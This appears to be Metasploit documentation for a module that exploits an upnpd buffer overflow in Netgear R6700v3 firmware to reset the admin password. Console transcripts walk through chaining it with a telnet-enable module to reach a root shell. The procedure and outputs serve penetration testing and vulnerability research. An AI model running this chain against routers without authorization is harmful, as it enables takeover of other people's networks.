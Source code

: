 ## Description

This module exploits a buffer overflow vulnerability in the upnpd daemon (/usr/sbin/upnpd), running on the router Netgear R6700v3, ARM Architecture, firmware version V1.0.4.82_10.0.57 and V1.0.4.84_10.0.58. Previous versions or models might also be vulnerable but they were not tested and would require additional offset information to work properly. Refer to the advisory for details on how to identify offsets in new versions.

The vulnerability can only be exploited by an attacker on the LAN side of the router, but the attacker does not need any authentication to abuse it. It will reset admin password to a factory defaults "password". After using this module, to achieve code execution, do the following steps manually:

1. Login to 192.168.1.1 with creds 'admin:password', then:
  * go to Advanced -> Administration -> Set Password
 	* Change the password from 'password' to <WHATEVER>
2. Run metasploit as root, then:
 	* use exploit/linux/telnet/netgear_telnetenable
 	* set interface <INTERFACE_CONNECTED_TO_ROUTER>
 	* set rhost 192.168.1.1
 	* set username admin
 	* set password <WHATEVER>
 	* run it and login with 'admin:<WHATEVER>'
3. Enjoy your root shell!

This vulnerability was discovered and exploited at Pwn2Own Tokyo 2019 by the team Flashback (Pedro Ribeiro + Radek Domanski).

## Vulnerable Application

* [Netgear R6700v3 firmware version V1.0.4.82_10.0.57](http://www.downloads.netgear.com/files/GDC/R6700v3/R6700v3-V1.0.4.82_10.0.57.zip)
* [Netgear R6700v3 firmware version V1.0.4.84_10.0.58](http://www.downloads.netgear.com/files/GDC/R6700v3/R6700v3-V1.0.4.84_10.0.58.zip)



## Verification Steps
  Example steps in this format:

  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: ```use auxiliary/admin/http/netgear_r6700_pass_reset```
  4. Set RHOST
  5. Do ```check```
  6. Do: ```run```
  7. Admin password has been reset to default `password`

## Options

### RHOSTS

IP address of the LAN interface of the vulnerable target.

### RPORT 

upnpd port on the target. Default 5000.

## Scenarios

### Netgear R6700v3 firmware version V1.0.4.84_10.0.58

```
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > check 

[*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.84_10.0.58) as the target.
[+] 192.168.1.1:5000 - The target is vulnerable.

msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > run
[*] Running module against 192.168.1.1

[*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.84_10.0.58) as the target.
[+] 192.168.1.1:5000 - HTTP payload sent! 'admin' password has been reset to 'password'
[*] To achieve code execution, do the following steps manually:
[*] 1- Login to 192.168.1.1 with creds 'admin:password', then:
[*] 	1.1- go to Advanced -> Administration -> Set Password
[*] 	1.2- Change the password from 'password' to <WHATEVER>
[*] 2- Run metasploit as root, then:
[*] 	2.1- use exploit/linux/telnet/netgear_telnetenable
[*] 	2.2- set interface <INTERFACE_CONNECTED_TO_ROUTER>
[*] 	2.3- set rhost 192.168.1.1
[*] 	2.3- set username admin
[*] 	2.4- set password <WHATEVER>
[*] 	2.5- run it and login with 'admin:<WHATEVER>'
[*] 3- Enjoy your root shell!
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > use exploit/linux/telnet/netgear_telnetenable
msf5 exploit(linux/telnet/netgear_telnetenable) > ifconfig | grep enx
[*] exec: ifconfig | grep enx

enxd03745775fdd: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
msf5 exploit(linux/telnet/netgear_telnetenable) > set interface enxd03745775fdd
interface => enxd03745775fdd
msf5 exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf5 exploit(linux/telnet/netgear_telnetenable) > set username admin
username => admin
msf5 exploit(linux/telnet/netgear_telnetenable) > set password Flashback
password => Flashback
msf5 exploit(linux/telnet/netgear_telnetenable) > set timeout 1500
timeout => 1500
msf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[*] 192.168.1.1:23 - Attempting to discover MAC address via ARP
[+] 192.168.1.1:23 - Found MAC address
[+] 192.168.1.1:23 - Using creds admin:Flashback
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.1:23) at 2020-06-22 17:52:25 +0200

 login: admin
admin
Password: Flashback



BusyBox v1.7.2 (2019-10-19 12:12:12 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# id
id
uid=0(admin) gid=0(root)
# uname -a
uname -a
Linux R6700v3 2.6.36.4brcmarm+ #17 SMP PREEMPT Sat Oct 19 11:17:27 CST 2019 armv7l unknown

```

### Netgear R6700v3 firmware version V1.0.0.4.82_10.0.57

```
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > show options

Module options (auxiliary/admin/http/netgear_r6700_pass_reset):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    5000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > exploit
[*] Running module against 192.168.1.1

[*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.82_10.0.57) as the target.
[+] 192.168.1.1:5000 - HTTP payload sent! 'admin' password has been reset to 'password'
[*] To achieve code execution, do the following steps manually:
[*] 1- Login to 192.168.1.1 with creds 'admin:password', then:
[*]     1.1- go to Advanced -> Administration -> Set Password
[*]     1.2- Change the password from 'password' to <WHATEVER>
[*] 2- Run metasploit as root, then:
[*]     2.1- use exploit/linux/telnet/netgear_telnetenable
[*]     2.2- set interface <INTERFACE_CONNECTED_TO_ROUTER>
[*]     2.3- set rhost 192.168.1.1
[*]     2.3- set username admin
[*]     2.4- set password <WHATEVER>
[*]     2.5- run it and login with 'admin:<WHATEVER>'
[*] 3- Enjoy your root shell!
[*] Auxiliary module execution completed
```
